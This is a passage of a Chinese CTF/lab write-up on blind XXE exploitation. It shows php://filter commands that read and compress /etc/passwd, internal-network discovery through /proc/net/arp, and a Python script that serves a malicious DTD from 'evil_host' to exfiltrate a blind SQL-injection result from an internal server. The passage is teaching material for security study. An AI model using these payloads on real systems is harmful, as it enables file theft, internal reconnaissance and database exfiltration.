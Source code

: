 >注意：
    这里有一个小技巧，当我们使用 libxml 读取文件内容的时候，文件不能过大，如果太大就会报错，于是我们就需要使用 php
    过滤器的一个压缩的方法
    压缩：echo file_get_contents("php://filter/zlib.deflate/convert.base64-encode/resource=/etc/passwd");
    解压：echo file_get_contents("php://filter/read=convert.base64-decode/zlib.inflate/resource=/tmp/1");

然后我们考虑内网有没有东西，我们读取

>/proc/net/arp
/etc/host

找到内网的另一台服务器的 ip 地址 192.168.223.18

拿到这个 ip 我们考虑就要使用 XXE 进行端口扫描了，然后我们发现开放了 80 端口，然后我们再进行目录扫描，找到一个 test.php ，根据提示，这个页面的 shop 参数存在一个注入,但是因为本身这个就是一个 Blind XXE ,我们的对服务器的请求都是在我们的远程 DTD 中包含的，现在我们需要改变我们的请求，那我们就要在每一次修改请求的时候修改我们远程服务器的 DTD 文件，于是我们的脚本就要挂在我们的 VPS 上，一边边修改 DTD 一边向存在 XXE 漏洞的主机发送请求，脚本就像下面这个样子

示例代码：
```
import requests
url = 'http://39.107.33.75:33899/common.php'
s = requests.Session()
result = ''
data = {
        "name":"evil_man",
        "email":"testabcdefg@gmail.com",
        "comment":"""<?xml version="1.0" encoding="utf-8"?>
                <!DOCTYPE root [
                <!ENTITY % dtd SYSTEM "http://evil_host/evil.dtd">
                %dtd;]>
                """
}

for i in range(0,28):
        for j in range(48,123):
                f = open('./evil.dtd','w')
            payload2 = """<!ENTITY % file SYSTEM "php://filter/read=zlib.deflate/convert.base64-encode/resource=http://192.168.223.18/test.php?shop=3'-(case%a0when((select%a0group_concat(total)%a0from%a0albert_shop)like%a0binary('{}'))then(0)else(1)end)-'1">
                <!ENTITY % all "<!ENTITY % send SYSTEM 'http://evil_host/?result=%file;'>">
                %all;
                %send;""".format('_'*i+chr(j)+'_'*(27-i))
                f.write(payload2)
                f.close()
                print 'test {}'.format(chr(j))
                r = s.post(url,data=data)
                if "Oti3a3LeLPdkPkqKF84xs=" in r.content and chr(j)!='_':
                        result += chr(j)
                        print chr(j)
                        break
print result
```

这道题难度比加大，做起来也非常的耗时，所有的东西都要靠脚本去猜，因此当时是0解
#实验六：文件上传
